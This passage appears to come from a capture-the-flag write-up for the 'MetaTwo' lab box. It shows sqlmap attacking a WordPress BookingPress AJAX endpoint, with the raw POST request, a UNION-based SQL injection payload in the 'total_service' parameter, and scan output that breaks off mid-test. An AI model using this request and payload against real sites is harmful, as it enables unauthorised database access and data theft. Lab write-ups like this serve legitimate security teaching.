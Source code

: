 [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:15:59 /2023-04-22/

[14:15:59] [INFO] parsing HTTP request from 'requests.txt'
[14:15:59] [WARNING] it appears that you have provided tainted parameter values ('total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -') with most likely leftover chars/statements from manual SQL injection test(s). Please, always use only valid parameter values so sqlmap could be able to run properly
are you really sure that you want to continue (sqlmap could have problems)? [y/N] N

{% endhighlight %}

`sqlmap` yells at us for already having a tainted parameter value for our vulnerable variable.  Let's change that value to something "normal."

Corrected `requests.txt`

{% highlight console  %}
┌──(kali 🛸 box)-[~/workSpace/Boxes/MetaTwo]
└─$  cat requests.txt 
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: metapress.htb
User-Agent: curl/7.88.1
Accept: */*
Content-Length: 185
Content-Type: application/x-www-form-urlencoded
Connection: close

action=bookingpress_front_get_category_services&_wpnonce=6027d5fa3e&category_id=33&total_service=35

{% endhighlight %}

Running `sqlmap` again we find a few different payloads that will work on the vulnerable parameter.

{% highlight console  %}
┌──(kali 🛸 box)-[~/workSpace/Boxes/MetaTwo]
└─$  sqlmap -r requests.txt --level 4 --risk 3 --batch -p total_service                                           
        ___                                                                                                            
       __H__                                                                                                           
 ___ ___[,]_____ ___ ___  {1.7.2#stable}                                                                               
|_ -| . [)]     | .'| . |                                                                                              
|___|_  [.]_|_|_|__,|  _|                                                                                              
      |_|V...       |_|   https://sqlmap.org                                                                           
                                                                                                                       
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not resp
onsible for any misuse or damage caused by this program                                                                
                                                                                                                       
[*] starting @ 14:22:13 /2023-04-22/                                                                                   
                                                                                                                       
[14:22:13] [INFO] parsing HTTP request from 'requests.txt'
[14:22:13] [INFO] testing connection to the target URL
[14:22:13] [INFO] checking if the target is protected by some kind of WAF/IPS
[14:22:13] [INFO] testing if the target URL content is stable
[14:22:14] [INFO] target URL content is stable                                                                         
[14:22:14] [WARNING] heuristic (basic) test shows that POST parameter 'total_service' might not be injectable
[14:22:14] [INFO] testing for SQL injection on POST parameter 'total_service'   
[14:22:14] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'


abridged
[14:22:18] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'